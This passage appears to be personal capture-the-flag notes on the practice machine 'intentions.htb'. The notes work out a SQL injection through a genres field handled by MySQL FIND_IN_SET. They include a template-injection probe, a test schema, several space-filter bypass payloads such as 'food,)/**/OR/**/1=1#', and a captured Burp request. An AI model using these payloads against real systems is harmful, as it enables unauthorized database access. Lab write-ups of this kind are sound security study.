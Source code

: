 ```
						```bash
${{<%[%'"}}%\.
```
			- Spaces are removed ( tried ' or 1=1-- - and it saved w/o spaces)
			- Also judging from this, the tags in the profile location interact with the genre location and causes changes in the feed location 
	- **NEW TOOL**
		- https://sqlfiddle.com/mysql/online-compiler
			- we use this test code to play with and find the code below:
			```bash
-- INIT database
CREATE TABLE Product (
  ProductID INT AUTO_INCREMENT KEY,
  Name VARCHAR(100),
  genres VARCHAR(255)
);

INSERT INTO Product(Name, genres) VALUES ('Entity Framework Extensions', 'animals');
INSERT INTO Product(Name, genres) VALUES ('Dapper Plus', 'food');
INSERT INTO Product(Name, genres) VALUES ('C# Eval Expression', 'nsature');

-- QUERY database

SELECT * FROM Product WHERE FIND_IN_SET(genres,"animals,food") #this is the command we exploit
```
		- FIND_IN_SET new command
			- as we see it requires us to close the paranthesis.
				- we try this for our injection
- Furthermore with our injection earlier, I also tried to use comments as space and it seemed to work EXCEPT for when I tried to use it as a space in -- -.
	- This is because - looks for space as a delimiter and a comment isn't the same as a space in that check so it doesn't comment out the rest of the line leading to an error and the feed not returning any value.
	- There are many ways to comment, I tried # and /**/.
		- When using only # so the command:
			```bash
food,')#OR#1=1#
```
			- The feed showed only food
			- This is because # comments out everything ahead of it so it just checks the first argument  i.e just food
		- We tried using `/**/` only but that returned with an error too probably cause we closed the comment at the end with this
			```bash
food,')/**/OR/**/1=1/**/
food,)/**/OR/**/1=1/*
```
		- Finally we tried the mix of the two using # to comment out the end but `/**/` for spaces
			```bash
food,)/**/OR/**/1=1#
```
			
- robots.txt
	```bash
User-agent: *
Disallow:
```
### Enumeration with BurpSuite
- Now we know the possible injection point and where we get the output, we capture these packets on Burpsuite i.e:
	- When we update the genre we call (the input in the profile page)
		```bash
POST /api/v1/gallery/user/genres HTTP/1.1
Host: intentions.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/plain, */*
```